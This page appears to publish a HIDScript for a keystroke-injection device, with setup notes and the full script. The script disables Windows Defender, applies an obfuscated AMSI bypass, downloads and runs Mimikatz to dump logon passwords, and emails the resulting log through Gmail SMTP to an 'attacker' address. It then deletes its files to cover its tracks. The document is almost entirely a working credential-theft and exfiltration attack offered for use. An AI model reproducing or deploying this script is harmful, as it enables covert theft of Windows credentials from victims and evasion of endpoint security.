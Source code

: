 # Credentials - Mimikatz + Send Result to Mail

## Description

This is a simple HIDScript that disable windows defender, run Mimikatz (logonPasswords) and save the result to log.
Then it send to your mail the log as attachment, delete Mimikatz and log files and finally re-enable windows defender.

## Requirement

1. First note this script has been created and tested under Windows 11 Build 22000.

2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.

3. Change the sender e-mail/password and set the attacker email that will receive the mail with the Mimikatz log attached to.

4. To deliver the mail, you need first to allow less secure app to access you'r Gmail account. To do this you need first to disable 2FA, then enable less secure app (<a href="https://myaccount.google.com/lesssecureapps">direct link</a>). I suggest to create a Gmail account only for this purpose, instead of using you'r personal account if you are using Gmail. As you need to disable 2FA it expose you'r account.

## Code

```bash
layout("ch")
press("GUI r")
delay(1000)
type("windowsdefender:")
press("ENTER")
delay(1000)
press("ENTER")
delay(1000)
press("TAB")
press("TAB")
press("TAB")
press("TAB")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("LEFT")
delay(1000)
press("ENTER")
delay(1000)
press("GUI r")
delay(200)
type("powershell.exe start-process powershell -verb runas")
press("ENTER")
delay(1500)
press("LEFT")
press("ENTER")
delay(1000)
type("[Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)")
press("ENTER")
delay(1000)
type("(New-Object System.Net.WebClient).DownloadFile('https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip','C:\\mimikatz_trunk.zip')")
press("ENTER")
delay(1000)
type("cd /")
press("ENTER")
delay(500)
type("mkdir mimi")
press("ENTER")
delay(500)
type("Expand-Archive -Path mimikatz_trunk.zip -DestinationPath C:\\mimi")
press("ENTER")
delay(1500)
type("cd mimi")
press("ENTER")
delay(500)
type("cd x64")
press("ENTER")
delay(500)
type(".\\mimikatz.exe")
press("ENTER")
delay(1000)
type("log log.txt")
press("ENTER")
delay(1000)
type("privilege::debug")
press("ENTER")
delay(1000)
type("sekurlsa::logonPasswords")
press("ENTER")
delay(1000)
type("exit")
press("ENTER")
delay(1000)
type("$emailSmtpServer = 'smtp.gmail.com';$emailSmtpServerPort = '587';$emailSmtpUser = 'sender@gmail.com';$emailSmtpPass = 'YourSuperPassword';$emailMessage = New-Object System.Net.Mail.MailMessage;$emailMessage.From = 'HIDScript LogonPassword Mimikatz <sender@gmail.com>';$emailMessage.To.Add('attacker@protonmail.com');$emailMessage.Body = 'W00tW00t, You received one log file, see attachment!';$SMTPClient = New-Object System.Net.Mail.SmtpClient( $emailSmtpServer , $emailSmtpServerPort );$SMTPClient.EnableSsl = $true;$SMTPClient.Credentials = New-Object System.Net.NetworkCredential( $emailSmtpUser , $emailSmtpPass );$attachment = 'C:\\mimi\\x64\\log.txt';$emailMessage.Attachments.Add($attachment);$SMTPClient.Send($emailMessage)")
press("ENTER")
delay(2000)
type("cd /")
press("ENTER")
type("rmdir mimi")
press("ENTER")
delay(1000)
type("T")
press("ENTER")
delay(1000)
type("del mimikatz_trunk.zip")
press("ENTER")
delay(500)
type("exit")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("ALT F4")

```
